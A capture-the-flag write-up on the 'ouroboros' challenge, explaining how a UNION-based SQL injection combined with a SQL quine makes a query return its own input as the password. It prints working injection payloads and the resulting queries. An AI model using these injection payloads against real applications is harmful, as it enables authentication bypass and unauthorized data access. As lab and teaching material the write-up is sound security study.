 ```yaml
---
custom_edit_url: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

A Quine is a program that outputs its own souce code without having access to it.
An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
,char(34),char(39)),char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
) AS Quine 
```
### Initial string

```sql
-- - SELECT Replace(Replace( -- -
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
-- - ,char(34),char(39)),char(36),'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- -
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine', 
char(34), 
char(39)
)
-- - ,char(36),'SELECT REPLACE(REPLACE("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `char(34)` (double quote `"` character) with `char(39)` (single quote `'` character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\') AS Quine'
-- - ,char(36),'SELECT REPLACE(REPLACE("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- 
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\') AS Quine', 
char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `char(36)` (dollar sign `$` character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\'
,char(34),char(39)),char(36),
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\'
) AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\'
,char(34),char(39)),char(36),
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\'
) AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
,char(34),char(39)),char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
) AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;

## Modified Quine

```sql
\' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
,char(34),char(39)),char(36), 
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
)%23
```
### First replacement

```sql
-- - ' UNION SELECT Replace( -- -
Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),
char(39)
)
-- - ,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```

Replace all occurrences of `char(34)` (double quote `"` character) with `char(39)` (single quote `'` character):

```sql
-- - ' UNION SELECT Replace( -- -
'\' UNION SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\')%23'
-- - ,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```
### Second replacement

```sql
-- - ' UNION SELECT -- -
Replace(
'\' UNION SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\')%23',
char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
)
-- - %23 -- -
```

Replace all occurrences of `char(36)` (dollar sign `$` character) with the original string:

```sql
-- - ' UNION SELECT -- -
'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
-- - %23 -- -
```
### Putting it all together

The final result of the query is the string after both replacements, as follows:

```sql
\' UNION SELECT 
'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
%23
```

When this SQL query is executed, it will return the following text:

```sql
\' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
,char(34),char(39)),char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
)%23
```

We have successfully managed to create a Quine to solve this challenge.

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
\' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/075e1d88-9e46-4cd7-a829-b8c68814e9d7)
